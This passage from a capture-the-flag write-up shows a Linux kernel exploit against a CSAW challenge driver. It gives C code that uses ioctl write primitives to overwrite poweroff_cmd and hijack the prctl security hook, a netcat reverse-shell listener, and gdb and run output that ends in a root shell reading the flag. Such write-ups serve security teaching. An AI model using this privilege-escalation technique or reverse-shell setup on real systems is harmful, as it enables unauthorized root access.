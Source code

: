 ```c
ioctl(fd,CSAW_WRITE_CHANNEL,&write_channel);
```

We can be sure to have overwritten the `poweroff_cmd` command by just looking at gdb:
```
pwndbg> x/s 0xffffffff81e4dfa0
0xffffffff81e4dfa0:	"/reverse_shell"
```
Finally we make point `task_prctl` to `poweroff_work_func`:
```c
memset(buf,'\0',0x1000);
seek_channel.id = id;
seek_channel.index = poweroff_cmd+14-0x10 ;
seek_channel.whence= SEEK_SET;	
ioctl(fd,CSAW_SEEK_CHANNEL,&seek_channel);
	
write_channel.id = id;
write_channel.buf = buf;
write_channel.count = 1;
ioctl(fd,CSAW_WRITE_CHANNEL,&write_channel);
	
memset(buf,'\0',0x1000);
*(size_t *)buf = poweroff_work_func;
seek_channel.id = id;
seek_channel.index = prctl_hook-0x10 ;
seek_channel.whence= SEEK_SET;	
ioctl(fd,CSAW_SEEK_CHANNEL,&seek_channel);
	
write_channel.id = id;
write_channel.buf = buf;
write_channel.count = 20+1;
ioctl(fd,CSAW_WRITE_CHANNEL,&write_channel);
```
Now the last thing we need is actually call prctl, from c we do this:
```c
if(fork() == 0 ){ //Here why we use a reverse shell, we create a new process...
	prctl(0,0);
	exit(-1);
}
system("nc -l -p PORT_of_REVSHELL");
```
Debugging in gdb, and stopping at `security_task_prctl+78`, where we call the task_prctl table we see:
```
 ► 0xffffffff813467fe <security_task_prctl+78>    call   qword ptr [rbx + 0x18]        <poweroff_work_func>
        rdi: 0x0
        rsi: 0x0
        rdx: 0x1057680 —▸ 0x4d0a90 ◂— 0x1057680
        rcx: 0x4503d2 ◂— 0x1f0f2e66c3c08944
```
where rdi, rsi, rdx and rcx contains the value of the arguments of prctl
So executing our payload we get:
```
/ $ /tmp/pwn
[+] now we get a channel 1
[+] found vdso ffffffff81e04000
[+] found kernel base: ffffffff81000000
[+] found prctl_hook: ffffffff81eb7df8
[+] found poweroff_cmd : ffffffff81e4dfa0
[+] found poweroff_work_func: ffffffff810a39c0
sh -i
sh: can't access tty; job control turned off
/ # cat /flag
this is a sample flag
```